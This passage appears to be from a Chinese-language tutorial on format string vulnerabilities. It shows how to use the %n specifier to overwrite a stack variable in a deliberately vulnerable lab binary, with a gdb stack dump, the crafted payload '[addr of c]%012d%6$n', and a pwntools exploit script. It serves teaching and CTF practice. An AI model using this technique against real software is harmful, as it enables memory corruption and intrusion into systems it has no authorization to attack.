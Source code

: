 无论是覆盖哪个地址的变量, 我们基本上都是构造类似如下的`payload`:

```bash
...[overwrite addr]....%[overwrite offset]$n
```

其中`...`表示我们的填充内容, `overwrite addr`表示我们所要覆盖的地址, `overwrite offset`地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数. 所以一般来说, 也是如下步骤:
 - 确定覆盖地址
 - 确定相对偏移
 - 进行覆盖

#### 覆盖栈内存
首先, 我们自然是来想办法知道栈变量`c`的地址. 由于目前几乎上所有的程序都开启了`aslr`保护, 所以栈的地址一直在变. 我们这里故意输出了`c`变量的地址.

其次, 我们来确定一下存储格式化字符串的地址是`printf`将要输出的第几个参数, 这里通过之前的泄露栈变量数值的方法来进行操作.

```c++
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484d7  →  <main+76> add esp, 0x10     ← $esp
0xffffcd10│+0x04: 0xffffcd28  →  "%d%d"
0xffffcd14│+0x08: 0xffffcd8c  →  0x00000315
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: 0xffffcd4e  →  0xffff0000  →  0x00000000
0xffffcd24│+0x18: 0xffffce4c  →  0xffffd07a  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd28│+0x1c: "%d%d"     ← $eax
```

我们可以发现在`0xffffcd14`处存储着变量`c`的数值. 继而, 我们再确定格式化字符串`%d%d`的地址`0xffffcd28`相对于`printf`函数的格式化字符串参数`0xffffcd10`的偏移为`0x18`, 即格式化字符串相当于`printf`函数的第`7`个参数, 相当于格式化字符串的第`6`个参数.

这样, 第`6`个参数处的值就是存储变量`c`的地址, 我们便可以利用`%n`的特征来修改`c`的值, `payload`如下:

```bash
[addr of c]%012d%6$n
```

`addr of c`的长度为`4`, 故而我们得再输入`12`个字符才可以达到`16`个字符, 以便于来修改`c`的值为`16`. 脚本如下:

```python
def forc():
    sh = process('./overflow')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print hex(c_addr)
    payload = p32(c_addr) + '%012d' + '%6$n'
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

forc()
```
